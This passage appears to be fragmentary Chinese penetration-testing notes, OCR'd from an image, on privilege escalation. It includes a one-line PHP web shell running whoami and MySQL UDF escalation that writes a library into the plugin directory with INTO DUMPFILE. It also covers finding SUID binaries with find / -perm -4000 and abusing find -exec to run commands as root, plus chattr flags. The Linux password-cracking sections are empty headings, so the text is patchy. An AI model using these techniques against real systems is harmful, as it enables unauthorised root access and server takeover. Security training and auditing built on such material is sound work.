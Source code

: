    ```<?php echo `whoami`;?>```
   mysql>=5.1 lib/plugin

6. 导出到指定位置

   show variables like 'plugin%';

   SELECT udf FROM temp_udf INTO DUMPFILE "plugin_dir";
#### 远程桌面

1.打开3389端口
#### www提权

whoami 

回显：www

**SUID提权**

![image-20221204205003625](assets/image-20221204205003625.png)

**nmap, find, vim, bash, more, less, nano, cp, awk, mv**

1、查找那些命令有suid

```shell
find / -user root -perm -4000 -print 2>/dev/null
```

2、发现find命令有suid，可以提权

```shell
find <filename> -exec whoami \; # 回显root
chattr -i <filename> # 修改文件为可修改
```

```
a：让文件或目录仅供附加用途。
b：不更新文件或目录的最后存取时间。
c：将文件或目录压缩后存放。
d：将文件或目录排除在倾倒操作之外。
i：不得任意更动文件或目录。
s：保密性删除文件或目录。
S：即时更新文件或目录。
u：预防意外删除。
```
### Linux 密码破解

#### 本机登陆

#### 远程登陆

方式：Telnet、VNC、SFTP、SSH-secure shell

